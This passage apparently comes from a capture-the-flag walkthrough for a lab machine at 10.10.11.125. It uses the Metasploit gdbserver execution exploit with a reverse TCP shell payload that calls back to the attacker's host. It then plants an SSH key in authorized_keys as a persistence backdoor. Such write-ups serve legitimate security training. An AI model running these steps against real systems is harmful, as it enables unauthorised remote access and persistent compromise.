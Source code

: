 The presence of the lm string tells us that the target is going to be x64. We can also just execute the exploit and it should automatically tell us if there is an architecture mismatch if we were using x86.

```bash
search gdbserver

Matching Modules
================

   #  Name                               Disclosure Date  Rank   Check  Description
   -  ----                               ---------------  ----   -----  -----------
   0  exploit/multi/gdb/gdb_server_exec  2014-08-24       great  No     GDB Server Remote Payload Execution
   1    \_ target: x86                   .                .      .      .
   2    \_ target: x86_64                .                .      .      .
   3    \_ target: ARMLE                 .                .      .      .
   4    \_ target: AARCH64               .                .      .      .
```

```bash
use 0
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
set LPORT 4444
set payload payload/linux/x64/shell_reverse_tcp #can get this from show payloads
run

```

We now have shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s keep persistence:

```bash
#Let's create a ssh key on attack host
ssh-keygen -f backdoor
cat backdoor.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHfz0gjY5Visi9noe5ym+qJPJ20G0r7F5LvgYoox1EWt kali@kali

#Now cat the content and echo it to authorized_keys on target host
mkdir .ssh
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHfz0gjY5Visi9noe5ym+qJPJ20G0r7F5LvgYoox1EWt kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 backdoor #change to secure permission to allow use of private key

ssh -i backdoor user@10.10.11.125
```
